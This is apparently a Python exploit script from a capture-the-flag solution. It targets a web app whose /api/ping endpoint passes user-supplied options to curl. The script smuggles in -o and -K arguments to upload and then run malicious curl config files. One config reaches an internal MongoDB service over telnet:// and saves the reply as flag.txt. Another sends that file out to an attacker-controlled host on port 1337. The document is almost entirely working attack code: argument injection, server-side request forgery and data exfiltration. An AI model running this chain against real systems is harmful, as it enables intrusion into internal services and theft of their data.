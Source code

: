 ``` py
assert res.status_code == 200

time.sleep(5)

print('upload curl config')
with open('curl.config', 'wb') as fout:
    fout.write(("""
next
url="telnet://mongodb:27017"
upload-file="GET"
output="flag.txt"
no-buffer
""").strip().encode())

res = requests.post('%s/api/ping' % url, data = {
    'url': 'http://[...]/curl.config',
    'opt': '-o',
    'data': 'POST',
})
assert res.status_code == 200

time.sleep(5)

print('download flag')
try:
    res = requests.post('%s/api/ping' % url, data = {
        'url': 'http://google.com/',
        'opt': '-K',
        'data': 'POST',
    })
    assert res.status_code == 200
except:
    pass

time.sleep(10)

print('upload exfil config')
with open('curl.config', 'wb') as fout:
    fout.write(("""
next
url="telnet://[...]:1337"
upload-file="flag.txt"
""").strip().encode())

res = requests.post('%s/api/ping' % url, data = {
    'url': 'http://[...]/curl.config',
    'opt': '-o',
    'data': 'POST',
})
assert res.status_code == 200

time.sleep(5)

print('exfil')
try:
    res = requests.post('%s/api/ping' % url, data = {
        'url': 'http://google.com/',
        'opt': '-K',
        'data': 'POST',
    })
    assert res.status_code == 200
except:
    pass
```